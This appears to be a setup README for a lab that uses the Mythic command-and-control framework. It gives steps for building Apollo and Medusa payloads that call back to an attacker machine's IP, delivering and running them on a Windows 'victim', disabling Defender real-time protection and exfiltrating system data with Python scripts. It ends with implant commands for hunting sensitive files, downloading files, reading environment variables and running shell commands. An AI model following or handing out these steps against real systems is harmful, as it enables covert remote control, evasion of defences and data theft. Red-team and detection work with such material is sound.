




# Setup Instructions

## Connecting to the virtual machine

- 1. Remote Connection

   - Windows:
      
      Open RDP and enter the public ip:

      

   - Mac:

      Windows App is recommended to download for remote desktop control

- 2. Connect to C2 Server (attack machine):

   - 2.1 Login with the credentials via <https://127.0.0.1:7443/new/login> (credential exists in .env)

      **attack machine:**

      This virtual machine is used to host the c2 server (exfiltrating data)

      Using Mythic (C2 server):

   - 2.2 Download Potential Payloads suitable for different operating systems

      - Windows
        ```
         # create apollo payload
         1. login in Mythic, create payload
         2. use apollo to create exe file
         3. choose default payload function (do not contain all functions, some are not available on Windows)
         4. set the callback host with http://{attack_machine_public_ip}, this ip is not the ip shown locally with ifconfig
         5. create and download, scp to target Windows machine, click for exeuction

         # create medusa payload
         1. login in Mythic, create payload
         2. use medusa to creat py file
         3. choose default payload function (do not contain all functions, some are not available on Windows)
         4. set the callback host with http://{attack_machine_public_ip}, this ip is not the ip shown locally with ifconfig
         5. create and download, scp to target Windows machine, click for exeuction

         
         ```

      - Linux
         ```
         
         ```

   - 2.3 After successfully running on target machine, navigate to the active callback page to see the callback hosts and exfiltrated data.


## Configuration on Victim Machine:

   - Turn off defender real time protection:

   


   - How to exfiltrate data:

      - 1. Using a payload with the medusa payload type 

      - 2. Included the data to exfiltrate in the data dictionary of the payload, run the python file to exfiltrate data and check the data in the active callback window 

         

         

      ```
      # build the communication tunnel and callback shell
      python3 medusa_wins.py
      # extract system data to a specific location
      python3 setup.py
      # upload saved data to c2 server --- check under Mythic Interface Files part by specifying Uploads
      python3 data_ext.py
      ```

      - 3. Dependent Files
         

      - 4. Check extracted system informatoin

         

## Commands (Actions) in Callbacks

- Working Commands:
```
# list C disk --- looking for potential sensitive files
ls {"path": "C:\\"}

# download file
download [path]

# run a python script, choose the local file script then
load_script

# check any environment variables
env

# running any shell command (one command one time)--- type commands in pop caption
shell

# upload a script (optional) --- can upload from the Web UI
upload 
```